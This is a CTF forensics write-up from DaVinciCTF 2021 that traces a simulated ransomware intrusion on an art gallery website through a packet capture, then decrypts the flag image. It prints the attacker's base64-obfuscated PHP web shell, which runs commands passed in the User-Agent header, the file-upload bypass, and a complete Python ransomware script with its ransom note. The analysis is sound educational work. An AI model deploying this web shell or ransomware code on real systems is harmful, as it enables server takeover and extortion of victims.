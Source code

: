 ```yaml
---
layout: post
title:  "Anatomy of a ransomware attack"
summary: "Analyze a ransomware attack though network traffic"
author: trigleos
date: '2021-03-25 20:00:00 +0200'
category: ['Networking','Threat_Hunting','Forensics']
tags: Forensics, Threat Hunting, Networking, wireshark
thumbnail: /assets/img/posts/ransomware-anatomy/ransom.png
keywords: Forensics, Threat Hunting, Networking, wireshark
usemathjax: false
permalink: /blog/ransomware-anatomy/
---
```

# Art Gallery
## TL;DR
Analyze a ransomware attack though network traffic
## Description
This was a Forensics challenge from the DaVinciCTF, where my team irNoobs managed to finish on the 4th place. This challenge particularly was extremely interesting as it closely mirrored an investigation of a ransomware attack, from the initial infection vector to the encryption routine.

**Challenge Description**: Alert! A famous online art gallery has just suffered an intrusion! The hacker has deployed a ransomware and demands an exorbitant ransom to return all of the gallery’s data… Fortunately, their teams had the presence of mind to capture the network at the time of the attack! You must help them recover their art, at least their most famous, “Flag sur fond de soleil couchant”. Its value is inestimable… Be careful, this pirate seems methodical and experienced! Tracing a precise history of the attack should help you see more clearly!

The challenge gives us an artgallery.pcap.xz file. You can find it at https://github.com/Trigleos/CTF/blob/master/dvCTF2021/artgallery.pcap.xz


## Initial analysis
A quick unxz after, we have a huge pcap file, with a bunch of useless stuff. The traffic we need to analyze this attack is at the bottom of the file. First, let’s extract the website of the art gallery and see what it looks like. You can do this easily by opening up the pcap file in wireshark and extracting HTTP objects. After rebuilding the homepage, the website looks like this:

![first webpage](/assets/img/posts/ransomware-anatomy/webpage1.png)

![second webpage](/assets/img/posts/ransomware-anatomy/webpage2.png)

The webpage isn’t really complicated, the only thing you can do is upload images. If you upload an image, the webiste calls upload.php, which we don’t have access to. This form might be exploitable if it is wrongly configured, so let’s investigate further and see what the attacker did to breach the website.
## Pentesting the website
Starting from packet 373300, we can see HTTP calls to upload.php. The first POST contains a test.jpg image so let’s take a look at it:

![test image](/assets/img/posts/ransomware-anatomy/test.jpg)

There’s nothing hidden inside, just this simple image so let’s take a look at the next POST request. It contains the same file, however there’s one major difference. The name of the image was changed to **test.jpg.php**. Even though this file has a dangerous extension, the website still responds with:
**Thank you for your confidence. Your artwork is ready to be shared !**
This is clearly a vulnerability as an attacker could exploit this to upload php scripts that he can execute to compromise the webserver. Let’s take a look at the last POST request to /upload.php. This time the request contains an helper.php file that contains the following code:
```php
<?php eval(base64_decode("JHBheWxvYWQgPSBlbmQoZXhwbG9kZSgiOyIsICRfU0VSVkVSWyJIVFRQX1VTRVJfQUdFTlQiXSkpOwpzeXN0ZW0oYmFzZTY0X2RlY29kZSgiJHBheWxvYWQiKSk7")); ?>
```
The code first decodes the base64 encoded payload and then calls eval on it, which simply executes the string as code. When we decode the base64 payload, we get the following:
```php
$payload = end(explode(";", $_SERVER["HTTP_USER_AGENT"]));
system(base64_decode("$payload"));
```
So let’s quickly analyze this code. explode() splits a strings into multiple values and end() takes the last value of an array. So the first line splits the HTTP User-Agent string by the ; character and then takes the last value of that array and saves it in $payload. The next line simply base64 decodes that value and then executes it on the system. So we know now how the attacker is planning on bringing his payload onto the webserver. He’ll append base64 encoded bash commands to the end of the HTTP User-Agent string, which will then get executed on the system
## Exploiting the vulnerability

Now that we know how the attacker plans on executing stuff on the server, let’s see if we can find one example of this. We can find a request to helper.php at packet number 373437. The User-Agent for this reqeust is the following:
```
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.75 Safari/537.36;bHM=
```
Now we take the last value after a ; which is bHM= and we base64 decode it to get ls
We can find the answer to this GET request a few packets down and it contains the plaintext:
```
RANSOM_README.txt

back_to_school.jpg

book_and_knives.jpg

dead_cameras.jpg

dont_just_stand_there.jpg

flag_sur_fond_de_soleil_couchant.jpg

helper.php

test.jpg

test.jpg.php

tools_and_dust.jpg
```
Now we know that the exploit works and we need to extract every User-Agent out of this pcap to get the entire payload.
My teammate Nick came up with a tshark command that did this very quickly while I simply went through the pcap and extracted each User-Agent by hand. Here’s his command:
```bash
tshark -Y 'http.request.uri=="/uploads/helper.php"' -T fields -e http.host -e http.user_agent -r artgallery.pcap | awk -F ';' '{print $3}' | uniq > base64_enc.txt
cat base64_enc.txt | base64 -d
```
If we run this, we get the following decoded commands:
```bash
ls 
python3 --version 
echo -n '#!/usr/bin/python3' >> ransom_v1.py 
echo -n 'from Crypto.Cipher import AES' >> ransom_v1.py 
echo -n 'import time, os' >> ransom_v1.py 
echo -n 'from hashlib import md5' >> ransom_v1.py
.
.
.
python3 ./ransom_v1.py
rm test.jpg
rm test.jpg.php
rm ransom_v1.py
rm helper.php
```
We can see that the attacker first checks if python3 is on the system, then crafts a python script called ransom_v1.py and executes it and finally deletes all evidence. So now, we need to reconstitute the python script and see what it does.
## Analyzing the ransomware
If we put all the echo commands together, we get the following python script:
```python
#!/usr/bin/python3
from Crypto.Cipher import AES
import time, os
from hashlib import md5

BS = 128
pad = lambda s: s + (BS - len(s) % BS) * chr(BS - len(s) % BS).encode("utf-8")

key = b"RLY_SECRET_KEY_!"  #key used for the AES encryption
iv = md5((b"%d" % time.time()).zfill(16)).digest()  #IV based on current epoch
cipher = AES.new(key, AES.MODE_CBC, iv)

files = os.listdir(".")  #lists all files in the current directory
for file in files:
    ext = file.split(".")[-1]
    if os.path.isdir(file) != True and (ext == "png" or ext == "jpg"):  #checks if file is an image file
        with open(file, "rb") as f:
            data = f.read()
        with open(file, "wb") as f:
            f.write(cipher.encrypt(pad(data)))  #encrypts opened file

with open("RANSOM_README.txt","wb") as f:
    f.write(b"""All your works of art have been encrypted with military grade encryption ! 
To recover them, please send 1000000000 bitcoins to 12nMSc17YjeD6fSQDjab8yfmV7b6qbKRS9
Do not try to find me (I use VPN and d4rkn3t to hide my ass :D) !!""")
```

The script encrypts image files using AES. We can easily reverse this because we know what the key is and we can get the IV by looking at the time at which the python3 ./ransom_v1.py command got send to the server. In our case, this would be a time of 1611844509, which you can find in packet 374551.
Now we only need to extract the encrypted flag_sur_fond_de_soleil_couchant.jpg file which luckily for us is part of the pcap file. When we have all that, our decryption code looks like this:

```python
from Crypto.Cipher import AES
from hashlib import md5

key = b"RLY_SECRET_KEY_!"  #key used for the AES encryption
iv = md5((b"%d" % 1611844509).zfill(16)).digest()  #IV based on current epoch
cipher = AES.new(key, AES.MODE_CBC, iv)

with open("flag_sur_fond_de_soleil_couchant.jpg", "rb") as f:
    data = f.read()
with open("flag_sur_fond_de_soleil_couchant_decrypted.jpg", "wb") as f:
    f.write(cipher.decrypt(data))  #decrypts image file
```

Unfortunately, this does not return a completely correct jpg file. the first 16 bytes aren’t correct because the IV was actually a different one than the one we used. I tried bruteforcing the IV but to no avail. Later, it turned out that someone did a mistake with this and the image was wrongly encrypted. However, luckily for us, it seems that the author used photoshop to put the flag into this image, because if we analyze the file with strings (A wrong IV only affects the first 16 bytes), we can find the following text:
```
photoshop:LayerText="dvCTF{t1m3_i5_n0t_r4nd0m_en0ugh}"
```
So the text was put onto the image as a Layer, which is why we can see it here. This means that the flag is dvCTF{t1m3_i5_n0t_r4nd0m_en0ugh}
## Conclusion
This was a really interesting challenge. It made you analyze an entire attack and understand every aspect of it, from the initial vulnerability in upload.php to the execution of commands on the server. This was also one of the first CTFs where my team and I managed to win something. Everyone really put the effort in and in the end it payed off. Until next time.
-Trigleos

